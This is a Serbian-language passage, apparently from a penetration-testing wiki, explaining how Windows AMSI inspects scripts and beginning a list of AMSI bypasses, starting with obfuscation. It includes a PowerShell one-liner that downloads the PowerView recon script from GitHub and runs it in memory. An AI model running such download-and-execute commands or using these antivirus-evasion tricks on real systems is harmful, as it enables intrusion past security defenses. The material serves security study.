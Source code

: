 To omogućava antivirusnim rešenjima da inspiciraju ponašanje skripti izlažući sadržaj skripti u obliku koji je nešifrovan i nezamagljen.

Pokretanje `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')` će proizvesti sledeće upozorenje na Windows Defender-u.

<figure><img src="../.gitbook/assets/image (4) (5).png" alt=""><figcaption></figcaption></figure>

Primetite kako dodaje `amsi:` i zatim putanju izvršne datoteke iz koje je skripta pokrenuta, u ovom slučaju, powershell.exe

Nismo spustili nikakvu datoteku na disk, ali smo ipak uhvaćeni u memoriji zbog AMSI.

Postoje nekoliko načina za zaobići AMSI:

* **Obfuskacija**

Pošto AMSI uglavnom radi sa statičkim detekcijama, modifikovanje skripti koje pokušavate da učitate može biti dobar način za izbegavanje detekcije.

Međutim, AMSI ima sposobnost deobfuskacije skripti čak i ako ima više slojeva, tako da obfuskacija može biti loša opcija u zavisnosti od toga kako je urađena. To čini da izbegavanje nije tako jednostavno. Iako, ponekad, sve što treba da uradite je promeniti par imena promenljivih i bićete u redu, tako da zavisi koliko je nešto označeno.
